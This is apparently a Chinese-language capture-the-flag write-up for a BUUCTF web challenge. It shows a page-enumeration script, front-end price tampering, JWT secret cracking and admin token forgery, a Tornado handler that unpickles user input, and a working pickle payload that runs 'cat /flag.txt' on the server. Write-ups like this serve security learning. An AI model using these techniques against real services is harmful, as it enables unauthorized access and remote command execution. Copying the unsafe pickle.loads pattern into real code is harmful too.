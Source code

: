 ### Python Pickle 反序列化之 commands

话不多说，直接上题（BUUCTF）

![](https://pic1.imgdb.cn/item/67d81a8988c538a9b5bff794.png)

打开网页给出提示

![](https://pic1.imgdb.cn/item/67d81abb88c538a9b5bff798.png)

网页太多了，用脚本去找

```python
import requests

url="http://30b74212-bc6f-465c-8b60-d9aeaa215b75.node4.buuoj.cn:81/shop?page="
 
for i in range(0,2000):
    print(i)
    r=requests.get( url + str(i) )
    if 'lv6.png' in r.text:
        print (i)
        break
```

![](https://pic1.imgdb.cn/item/67d81af488c538a9b5bff79e.png)

找到后购买钱不够，修改前端代码的折扣

![](https://pic1.imgdb.cn/item/67d81b1388c538a9b5bff7a3.png)

购买后显示只能 admin 访问

![](https://pic1.imgdb.cn/item/67d81b2188c538a9b5bff7a5.png)

查看 Cookies 发现有 JWT

![](https://pic1.imgdb.cn/item/67d81b7388c538a9b5bff7ad.png)

使用工具破解密钥

![](https://pic1.imgdb.cn/item/67d81cb888c538a9b5bff7e4.png)

去在线网站生成 admin 的 JWT

![](https://pic1.imgdb.cn/item/67d81d1c88c538a9b5bff7f4.png)

替换掉刷新网页

![](https://pic1.imgdb.cn/item/67d81d0c88c538a9b5bff7f3.png)

点击后没反应，查看源代码有压缩文件

![](https://pic1.imgdb.cn/item/67d81d6788c538a9b5bff824.png)

下载后拿到源码

```python
import tornado.web
from sshop.base import BaseHandler
import pickle
import urllib
 
 
class AdminHandler(BaseHandler):
    @tornado.web.authenticated
    def get(self, *args, **kwargs):
        if self.current_user == "admin":
            return self.render('form.html', res='This is Black Technology!', member=0)
        else:
            return self.render('no_ass.html')
 
    @tornado.web.authenticated
    def post(self, *args, **kwargs):
        try:
            become = self.get_argument('become')
            p = pickle.loads(urllib.unquote(become))
            return self.render('form.html', res=p, member=1)
        except:
            return self.render('form.html', res='This is Black Technology!', member=0)
```

become 参数存在 Pickle 反序列化漏洞

```python
import pickle
import urllib
import commands

# commands.getoutput 是一个函数，用于执行系统命令并返回输出
class Try(object):
    def __reduce__(self):
        return (commands.getoutput, ('cat /flag.txt',))


a = Try()
print(urllib.quote(pickle.dumps(a)))
```

替换为脚本生成的序列化代码拿到 flag

![](https://pic1.imgdb.cn/item/67d8209a88c538a9b5bff911.png)

